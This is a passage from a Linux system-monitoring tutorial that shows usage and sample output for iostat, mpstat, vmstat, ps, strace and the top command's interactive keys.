sdb             371.31       945.97      1073.33 2345452365 2661206408
sdb1            371.31       945.95      1073.33 2345396901 2661206408

sdc             408.03       207.05       972.42  513364213 2411023092
sdc1            408.03       207.03       972.42  513308749 2411023092

By default iostat displays I/O data for all the disks available in the system. 
To view statistics for a specific device (For example, /dev/sda), use the option -p as shown below.

$ iostat -p sda
Linux 2.6.32-100.28.5.el6.x86_64 (dev-db)       07/09/2011

avg-cpu:  %user   %nice %system %iowait  %steal   %idle
           5.68    0.00    0.52    2.03    0.00   91.76

Device:            tps   Blk_read/s   Blk_wrtn/s   Blk_read   Blk_wrtn
sda             194.69      1096.51      1598.48 2719069928 3963829584
sda2            336.38        27.17        54.00   67365064  133905080
sda1            821.89         0.69       243.53    1720833  603892838

* Mpstat

mpstat reports processors statistics. The following are some of mpstat command examples.

Option -A, displays all the information that can be displayed by the mpstat command as shown below. This is really equivalent to “mpstat -I ALL -u -P ALL” command.

$ mpstat -A
Linux 2.6.32-100.28.5.el6.x86_64 (dev-db)       07/09/2011      _x86_64_        (4 CPU)

10:26:34 PM  CPU    %usr   %nice    %sys %iowait    %irq   %soft  %steal  %guest   %idle
10:26:34 PM  all    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00   99.99
10:26:34 PM    0    0.01    0.00    0.01    0.01    0.00    0.00    0.00    0.00   99.98
10:26:34 PM    1    0.00    0.00    0.01    0.00    0.00    0.00    0.00    0.00   99.98
10:26:34 PM    2    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00  100.00
10:26:34 PM    3    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00  100.00

10:26:34 PM  CPU    intr/s
10:26:34 PM  all     36.51
10:26:34 PM    0      0.00
10:26:34 PM    1      0.00
10:26:34 PM    2      0.04
10:26:34 PM    3      0.00

10:26:34 PM  CPU     0/s     1/s     8/s     9/s    12/s    14/s    15/s    16/s    19/s    20/s    21/s    33/s   NMI/s   LOC/s   SPU/s   PMI/s   PND/s   RES/s   CAL/s   TLB/s   TRM/s   THR/s   MCE/s   MCP/s   ERR/s   MIS/s
10:26:34 PM    0    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    7.47    0.00    0.00    0.00    0.00    0.02    0.00    0.00    0.00    0.00    0.00    0.00    0.00
10:26:34 PM    1    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    4.90    0.00    0.00    0.00    0.00    0.03    0.00    0.00    0.00    0.00    0.00    0.00    0.00
10:26:34 PM    2    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.04    0.00    0.00    0.00    0.00    0.00    3.32    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00

mpstat Option -P ALL, displays all the individual CPUs (or Cores) along with its statistics as shown below.

$ mpstat -P ALL
Linux 2.6.32-100.28.5.el6.x86_64 (dev-db)       07/09/2011      _x86_64_        (4 CPU)

10:28:04 PM  CPU    %usr   %nice    %sys %iowait    %irq   %soft  %steal  %guest   %idle
10:28:04 PM  all    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00   99.99
10:28:04 PM    0    0.01    0.00    0.01    0.01    0.00    0.00    0.00    0.00   99.98
10:28:04 PM    1    0.00    0.00    0.01    0.00    0.00    0.00    0.00    0.00   99.98
10:28:04 PM    2    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00  100.00
10:28:04 PM    3    0.00    0.00    0.00    0.00    0.00    0.00    0.00    0.00  100.00

* Vmstat

vmstat reports virtual memory statistics. The following are some of vmstat command examples.

vmstat by default will display the memory usage (including swap) as shown below.

$ vmstat
procs -----------memory---------- ---swap-- -----io---- --system-- -----cpu------
 r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa st
 0  0 305416 260688  29160 2356920    2    2     4     1    0    0  6  1 92  2  0

To execute vmstat every 2 seconds for 10 times, do the following. After executing 10 times, it will stop automatically.
$ vmstat 2 10
procs -----------memory---------- ---swap-- -----io---- --system-- -----cpu-----
 r  b   swpd   free   buff  cache   si   so    bi    bo   in   cs us sy id wa st
 1  0      0 537144 182736 6789320    0    0     0     0    1    1  0  0 100  0  0
 0  0      0 537004 182736 6789320    0    0     0     0   50   32  0  0 100  0  0
..

iostat and vmstat are part of the sar utility. You should install sysstat package to get iostat and vmstat working.

* ps
Process is a running instance of a program. Linux is a multitasking operating system, which means that more than one process can be active at once. Use ps command to find out what processes are running on your system.

This article explains 7 practical usages of ps command and its options.

To monitor and control the processes, Linux provides lot of commands such as ps, kill, killall, nice, renice and top commands.
1. List Currently Running Processes (ps -ef, ps -aux)

Its a commonly used example with a ps command to list down all the process which are currently running in a machine. The following example shows the options of ps command to get all the processes.

$ ps -ef
root     26551     5  0 Feb10 ?        00:03:41 [pdflush]
root     26570     5  0 Feb10 ?        00:00:20 [pdflush]
root     30344  3382  0 Feb21 ?        00:00:11 sshd: root@pts/14
root     30365 30344  0 Feb21 pts/14   00:00:02 -bash
root     30393  3382  0 Feb21 ?        00:00:10 sshd: root@pts/15

Where:

    -e to display all the processes.
    -f to display full format listing.

In case of BSD machines, you can use ‘ps -aux’ will give the details about all the process as shown above.

$ ps -aux

2. List the Process based on the UID and Commands (ps -u, ps -C)

Use -u option to displays the process that belongs to a specific username. When you have multiple username, separate them using a comma. The example below displays all the process that are owned by user wwwrun, or postfix.

$ ps -f -u wwwrun,postfix
UID        PID  PPID  C STIME TTY          TIME CMD
postfix   7457  7435  0 Mar09 ?        00:00:00 qmgr -l -t fifo -u
wwwrun    7495  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun    7496  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun    7497  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun    7498  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun    7499  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun   10078  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
wwwrun   10082  7491  0 Mar09 ?        00:00:00 /usr/sbin/httpd2-prefork -f /etc/apache2/httpd.conf
postfix  15677  7435  0 22:23 ?        00:00:00 pickup -l -t fifo -u

Often ps is used with grep like “ps -aux | grep command” to get the list of process with the given command.

But ps command itself has an option to achieve the same. The following example shows that all the processes which has tatad.pl in its command execution.

$ ps -f -C tatad.pl
UID        PID  PPID  C STIME TTY          TIME CMD
root      9576     1  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9577  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9579  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9580  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9581  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9582  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root     12133  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl

Note: We can create aliases for ps command to list processes based on commands, users or groups.
3. List the processes based on PIDs or PPIDs (ps -p, ps –ppid)

Each process will be assigned with the unique Process ID (PID).

When you launch some application, it might fork number of processes and each sub process will have its own PID. So, each process will have its own process id and parent processid.

For all the processes that a process forks will have the same PPID (parent process identifier). The following method is used to get a list of processes with a particular PPID.

$ ps -f --ppid 9576
UID        PID  PPID  C STIME TTY          TIME CMD
root      9577  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9579  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9580  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9581  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root      9582  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl
root     12133  9576  0 Mar09 ?        00:00:00 /opt/tata/perl/bin/perl /opt/tata/bin/tatad.pl

The following example is to list the processes which has given PID.

$ ps -f  -p 25009,7258,2426
UID        PID  PPID  C STIME TTY          TIME CMD
root      2426     4  0 Mar09 ?        00:00:00 [reiserfs/0]
root      7258     1  0 Mar09 ?        00:00:00 /usr/sbin/nscd
postfix  25009  7435  0 00:02 ?        00:00:00 pickup -l -t fifo -u

4. List Processes in a Hierarchy (ps –forest)

The example below display the process Id and commands in a hierarchy. –forest is an argument to ps command which displays ASCII art of process tree. From this tree, we can identify which is the parent process and the child processes it forked in a recursive manner.

$ ps -e -o pid,args --forest
  468  \_ sshd: root@pts/7
  514  |   \_ -bash
17484  \_ sshd: root@pts/11
17513  |   \_ -bash
24004  |       \_ vi ./790310__11117/journal
15513  \_ sshd: root@pts/1
15522  |   \_ -bash
 4280  \_ sshd: root@pts/5
 4302  |   \_ -bash

Note: You can also use tree and pstree command to displays process in a nice tree structure.
5. List elapsed wall time for processes (ps -o pid,etime=)

If you want the get the elapsed time for the processes which are currently running ps command provides etime which provides the elapsed time since the process was started, in the form [[dd-]hh:]mm:ss.

The below command displays the elapsed time for the process IDs 1 (init) and process id 29675.

For example “10-22:13:29″ in the output represents the process init is running for 10days, 22hours,13 minutes and 29seconds. Since init process starts during the system startup, this time will be same as the output of the ‘uptime’ command.

# ps -p 1,29675 -o pid,etime=
  PID
    1 10-22:13:29
29675  1-02:58:46

6. List all threads for a particular process (ps -L)

You can get a list of threads for the processes. 
When a process hangs, we might need to identify the list of threads running for a particular process as shown below.

 $ ps -C java -L -o pid,tid,pcpu,state,nlwp,args
  PID   TID %CPU S NLWP COMMAND
16992 16992  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16993  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16994  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16995  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16996  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16997  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16998  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 16999  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 17000  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 17001  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 17002  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 17003  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 17024  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 15753  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006
16992 15754  0.0 S   15 ../jre/bin/java -Djava.ext.dirs=../jre/lib/ext:../lib:../auto_lib -Xdebug -Xnoagent -Djava.compiler=NONE -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5006

-L option is used to display the list of threads for a process which has the command given. 
And it also displays nlwp, which represents number of light weight processes. 
In the above example, a total of 15 java threads are running.
7. Finding memory Leak (ps –sort pmem)

A memory leak, technically, is an ever-increasing usage of memory by an application.

With common desktop applications, this may go unnoticed, 
because a process typically frees any memory it has used when you close the application.

However, In the client/server model, memory leakage is a serious issue,
 because applications are expected to be available 24×7. 
Applications must not continue to increase their memory usage indefinitely, 
because this can cause serious issues. To monitor such memory leaks, we can use the following commands.

$ ps aux --sort pmem

USER       PID %CPU %MEM   VSZ  RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0  1520  508 ?        S     2005   1:27 init
inst  1309  0.0  0.4 344308 33048 ?      S     2005   1:55 agnt (idle)
inst  2919  0.0  0.4 345580 37368 ?      S     2005  20:02 agnt (idle)
inst 24594  0.0  0.4 345068 36960 ?      S     2005  15:45 agnt (idle)
root 27645  0.0 14.4 1231288 1183976 ?   S     2005   3:01 /TaskServer/bin/./wrapper-linux-x86-32

In the above ps command, –sort option outputs the highest %MEM at bottom. 
Just note down the PID for the highest %MEM usage. 
Then use ps command to view all the details about this process id, and monitor the change over time. 
You had to manually repeat ir or put it as a cron to a file.

$ ps ev --pid=27645
PID TTY STAT TIME MAJFL TRS DRS RSS %MEM COMMAND
27645 ? S 3:01 0 25 1231262 1183976 14.4 /TaskServer/bin/./wrapper-linux-x86-32

$ ps ev --pid=27645
PID TTY STAT TIME MAJFL TRS DRS RSS %MEM COMMAND
27645 ? S 3:01 0 25 1231262 1183976 14.4 /TaskServer/bin/./wrapper-linux-x86-32

Note: In the above output, if RSS (resident set size, in KB) increases over time (so would %MEM),
 it may indicate a memory leak in the application.

* strace
Strace is a debugging tool that will help you troubleshoot issues.

Strace monitors the system calls and signals of a specific program. It is helpful when you do not have the source code and would like to debug the execution of a program. strace provides you the execution sequence of a binary from start to end.

This article explains 7 strace examples to get you started.
1. Trace the Execution of an Executable

You can use strace command to trace the execution of any executable. The following example shows the output of strace for the Linux ls command.

$  strace ls
execve("/bin/ls", ["ls"], [/* 21 vars */]) = 0
brk(0)                                  = 0x8c31000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb78c7000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=65354, ...}) = 0
...
...
...

2. Trace a Specific System Calls in an Executable Using Option -e

Be default, strace displays all system calls for the given executable. To display only a specific system call, use the strace -e option as shown below.

$ strace -e open ls
open("/etc/ld.so.cache", O_RDONLY)      = 3
open("/lib/libselinux.so.1", O_RDONLY)  = 3
open("/lib/librt.so.1", O_RDONLY)       = 3
open("/lib/libacl.so.1", O_RDONLY)      = 3
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/lib/libdl.so.2", O_RDONLY)       = 3
open("/lib/libpthread.so.0", O_RDONLY)  = 3
open("/lib/libattr.so.1", O_RDONLY)     = 3
open("/proc/filesystems", O_RDONLY|O_LARGEFILE) = 3
open("/usr/lib/locale/locale-archive", O_RDONLY|O_LARGEFILE) = 3
open(".", O_RDONLY|O_NONBLOCK|O_LARGEFILE|O_DIRECTORY|O_CLOEXEC) = 3
Desktop  Documents  Downloads  examples.desktop  libflashplayer.so
Music  Pictures  Public  Templates  Ubuntu_OS  Videos

The above output displays only the open system call of the ls command. At the end of the strace output, it also displays the output of the ls command.

If you want to trace multiple system calls use the “-e trace=” option. The following example displays both open and read system calls.

$ strace -e trace=open,read ls /home
open("/etc/ld.so.cache", O_RDONLY)      = 3
open("/lib/libselinux.so.1", O_RDONLY)  = 3
read(3, "\177ELF\1\1\1\3\3\1\260G004"..., 512) = 512
open("/lib/librt.so.1", O_RDONLY)       = 3
read(3, "\177ELF\1\1\1\3\3\1\300\30004"..., 512) = 512
..
open("/lib/libattr.so.1", O_RDONLY)     = 3
read(3, "\177ELF\1\1\1\3\3\1\360\r004"..., 512) = 512
open("/proc/filesystems", O_RDONLY|O_LARGEFILE) = 3
read(3, "nodev\tsysfs\nnodev\trootfs\nnodev\tb"..., 1024) = 315
read(3, "", 1024)                       = 0
open("/usr/lib/locale/locale-archive", O_RDONLY|O_LARGEFILE) = 3
open("/home", O_RDONLY|O_NONBLOCK|O_LARGEFILE|O_DIRECTORY|O_CLOEXEC) = 3
bala

3. Save the Trace Execution to a File Using Option -o

The following examples stores the strace output to output.txt file.

$ strace -o output.txt ls
Desktop  Documents  Downloads  examples.desktop  libflashplayer.so
Music  output.txt  Pictures  Public  Templates  Ubuntu_OS  Videos

$ cat output.txt
execve("/bin/ls", ["ls"], [/* 37 vars */]) = 0
brk(0)                                  = 0x8637000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7860000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=67188, ...}) = 0
...
...

4. Execute Strace on a Running Linux Process Using Option -p

You could execute strace on a program that is already running using the process id. First, identify the PID of a program using ps command.

For example, if you want to do strace on the firefox program that is currently running, identify the PID of the firefox program.

$ ps -C firefox-bin
  PID TTY          TIME CMD
 1725 ?        00:40:50 firefox-bin

Use strace -p option as shown below to display the strace for a given process id.

$  sudo strace -p 1725 -o firefox_trace.txt

$ tail -f firefox_trace.txt

Now the execution trace of firefox process will be logged into firefox_trace.txt text file. You can tail this text file to watch the live trace of the firefox executable.

Strace will display the following error when your user id does not match the user id of the given process.

$  strace -p 1725 -o output.txt
attach: ptrace(PTRACE_ATTACH, ...): Operation not permitted
Could not attach to process.  If your uid matches the uid of the target
process, check the setting of /proc/sys/kernel/yama/ptrace_scope, or try
again as the root user.  For more details, see /etc/sysctl.d/10-ptrace.conf

5. Print Timestamp for Each Trace Output Line Using Option -t

To print the timestamp for each strace output line, use the option -t as shown below.

$ strace -t -e open ls /home
20:42:37 open("/etc/ld.so.cache", O_RDONLY) = 3
20:42:37 open("/lib/libselinux.so.1", O_RDONLY) = 3
20:42:37 open("/lib/librt.so.1", O_RDONLY) = 3
20:42:37 open("/lib/libacl.so.1", O_RDONLY) = 3
20:42:37 open("/lib/libc.so.6", O_RDONLY) = 3
20:42:37 open("/lib/libdl.so.2", O_RDONLY) = 3
20:42:37 open("/lib/libpthread.so.0", O_RDONLY) = 3
20:42:37 open("/lib/libattr.so.1", O_RDONLY) = 3
20:42:37 open("/proc/filesystems", O_RDONLY|O_LARGEFILE) = 3
20:42:37 open("/usr/lib/locale/locale-archive", O_RDONLY|O_LARGEFILE) = 3
20:42:37 open("/home", O_RDONLY|O_NONBLOCK|O_LARGEFILE|O_DIRECTORY|O_CLOEXEC) = 3
bala

6. Print Relative Time for System Calls Using Option -r

Strace also has the option to print the execution time for each system calls as shown below.

$ strace -r ls
     0.000000 execve("/bin/ls", ["ls"], [/* 37 vars */]) = 0
     0.000846 brk(0)                    = 0x8418000
     0.000143 access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
     0.000163 mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb787b000
     0.000119 access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory)
     0.000123 open("/etc/ld.so.cache", O_RDONLY) = 3
     0.000099 fstat64(3, {st_mode=S_IFREG|0644, st_size=67188, ...}) = 0
     0.000155 mmap2(NULL, 67188, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb786a000
     ...
     ...

7. Generate Statistics Report of System Calls Using Option -c

Using option -c, strace provides useful statistical report for the execution trace. The “calls” column in the following output indicated how many times that particular system call was executed.

$ strace -c ls /home
bala
% time     seconds  usecs/call     calls    errors syscall
------ ----------- ----------- --------- --------- ----------------
  -nan    0.000000           0         9           read
  -nan    0.000000           0         1           write
  -nan    0.000000           0        11           open
  -nan    0.000000           0        13           close
  -nan    0.000000           0         1           execve
  -nan    0.000000           0         9         9 access
  -nan    0.000000           0         3           brk
  -nan    0.000000           0         2           ioctl
  -nan    0.000000           0         3           munmap
  -nan    0.000000           0         1           uname
  -nan    0.000000           0        11           mprotect
  -nan    0.000000           0         2           rt_sigaction
  -nan    0.000000           0         1           rt_sigprocmask
  -nan    0.000000           0         1           getrlimit
  -nan    0.000000           0        25           mmap2
  -nan    0.000000           0         1           stat64
  -nan    0.000000           0        11           fstat64
  -nan    0.000000           0         2           getdents64
  -nan    0.000000           0         1           fcntl64
  -nan    0.000000           0         2         1 futex
  -nan    0.000000           0         1           set_thread_area
  -nan    0.000000           0         1           set_tid_address
  -nan    0.000000           0         1           statfs64
  -nan    0.000000           0         1           set_robust_list
------ ----------- ----------- --------- --------- ----------------
100.00    0.000000                   114        10 total

* top

In this article, let us review 15 examples for Linux top command that will be helpful for both newbies and experts.
** Get a quick command line option help using top -h as shown below.

$ top -h
        top: procps version 3.2.0
usage:  top -hv | -bcisS -d delay -n iterations [-u user | -U user] -p pid [,pid ...]

Press h while top command is running, which will display help for interactive top commands.

Help for Interactive Commands - procps version 3.2.0
Window 1:Def: Cumulative mode Off.  System: Delay 3.0 secs; Secure mode Off.

  Z,B       Global: 'Z' change color mappings; 'B' disable/enable bold
  l,t,m     Toggle Summaries: 'l' load avg; 't' task/cpu stats; 'm' mem info
  1,I       Toggle SMP view: '1' single/separate states; 'I' Irix/Solaris mode
  ..........

** Show Processes Sorted by any Top Output Column – Press O

By default top command displays the processes in the order of CPU usage.  
When the top command is running, press M (upper-case) to display processes sorted by memory usage as shown below.
Top Command Sort By Memory Usage

Fig: Press M to sort by memory usage – Unix top command

To sort top output by any column, Press O (upper-case O) , 
which will display all the possible columns that you can sort by as shown below.

Current Sort Field:  P  for window 1:Def
Select sort field via field letter, type any other key to return 

  a: PID        = Process Id              v: nDRT       = Dirty Pages count
  d: UID        = User Id                 y: WCHAN      = Sleeping in Function
  e: USER       = User Name               z: Flags      = Task Flags
  ........

When the linux top command is running, Press R, which does the sort in reverse order.
** Kill a Task Without Exiting From Top – Press k

Once you’ve located a process that needs to be killed, press ‘k’ which will ask for the process id, and signal to send.  
If you have the privilege to kill that particular PID, it will get killed successfully.

PID to kill: 1309
Kill PID 1309 with signal [15]: 
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent
 5136 root    16   0 38040  14m 9836 S    0  0.2   0:00.39 nautilus

3. Renice a Unix Process Without Exiting From Top – Press r

Press r, if you want to just change the priority of the process (and not kill the process). 
This will ask PID for renice, enter the PID and priority.


PID to renice: 1309
Renice PID 1309 to value: 
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent

** Display Selected User in Top Output Using top -u

 Use top -u to display a specific user processes only in the top command output.

$ top -u geek

While unix top command is running, press u which will ask for username as shown below.

Which user (blank for all): geek
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent

** Display Only Specific Process with Given PIDs Using top -p

Use top -p as shown below to display specific PIDs.

$ top -p 1309, 1882
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent

** Display All CPUs / Cores in the Top Output – Press 1 (one)

Top output by default shows CPU line for all the CPUs combined together as shown below.

top - 20:10:39 up 40 days, 23:02,  1 user,  load average: 4.97, 2.01, 1.25
Tasks: 310 total,   1 running, 309 sleeping,   0 stopped,   0 zombie
Cpu(s):  0.5%us,  0.7%sy,  0.0%ni, 92.3%id,  6.4%wa,  0.0%hi,  0.0%si,  0.0%st

Press 1 (one), when the top command is running, which will break the CPU down and show details for all the individual CPUs running on the system as shown below.

top - 20:10:07 up 40 days, 23:03,  1 user,  load average: 5.32, 2.38, 1.39
Tasks: 341 total,   3 running, 337 sleeping,   0 stopped,   1 zombie
Cpu0  :  7.7%us,  1.7%sy,  0.0%ni, 79.5%id, 11.1%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu1  :  0.3%us,  0.0%sy,  0.0%ni, 94.9%id,  4.7%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu2 :  3.3%us,  0.7%sy,  0.0%ni, 55.7%id, 40.3%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu3 :  5.0%us,  1.0%sy,  0.0%ni, 86.2%id,  7.4%wa,  0.0%hi,  0.3%si,  0.0%st
Cpu4  : 38.5%us,  5.4%sy,  0.3%ni,  0.0%id, 54.8%wa,  0.0%hi,  1.0%si,  0.0%st
Cpu5  :  0.0%us,  0.0%sy,  0.0%ni,100.0%id,  0.0%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu6  :  0.3%us,  0.7%sy,  0.0%ni, 97.3%id,  1.7%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu7  :  5.4%us,  4.4%sy,  0.0%ni, 82.6%id,  7.7%wa,  0.0%hi,  0.0%si,  0.0%st
Cpu8 :  1.7%us,  1.7%sy,  0.0%ni, 72.8%id, 23.8%wa,  0.0%hi,  0.0%si,  0.0%st

** Refresh Unix Top Command Output On demand (or) Change Refresh Interval

By default, linux top command updates the output every 3.0 seconds. When you want to update the output on-demand, press space bar.

To change the output update frequency, press d in interactive mode, and enter the time in seconds as shown below.

Change delay from 3.0 to: 10
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent

** Highlight Running Processes in the Linux Top Command Output – Press z or b

Press z or b, which will highlight all running process as shown below.
Highlight Running Process on Ubuntu Linux Using Top Command

Fig: Ubuntu Linux – top command highlights running process
** Display Absolute Path of the Command and its Arguments – Press c

Press c which will show / hide command absolute path, and arguments as shown below.

  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 /usr/sbin/gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 /usr/sbin/gagent -l 0 -u pre

** Quit Top Command After a Specified Number of Iterations Using top -n

Until you press q, top continuously displays the output. If you would like to view only a certain iteration and want the top to exit automatically use -n option as shown below.

The following example will show 2 iterations of unix top command output and exit automatically

$ top -n 2

** Executing Unix Top Command in Batch Mode

If you want to execute top command in the batch mode use option -b as shown below.

$ top -b -n 1

Note: This option is very helpful when you want to capture the unix top command output to a readable text file as we discussed earlier.
11. Split Top Output into Multiple Panels – Press A

To display multiple views of top command output on the terminal, press A. You can cycle through these windows using ‘a’. This is very helpful, when you can sort the output on multiple windows using different top output columns.
12. Get Top Command Help from Command Line and Interactively

** Decrease Number of Processes Displayed in Top Output – Press n

Press n in the Interactive mode, which prompts for a number and shows only that. Following example will display only 2 process as a time.

Maximum tasks = 0, change to (0 is unlimited): 2
  PID USER      PR  NI  VIRT  RES  SHR S %CPU %MEM    TIME+  COMMAND
 1309 geek   23   0 2483m 1.7g  27m S    0 21.8  45:31.32 gagent
 1882 geek   25   0 2485m 1.7g  26m S    0 21.7  22:38.97 gagent

** Toggle Top Header to Increase Number of Processes Displayed

By default top displays total number process based on the window height. If you like to see additional process you might want to eliminate some of the top header information.

Following is the default header information provided by top.

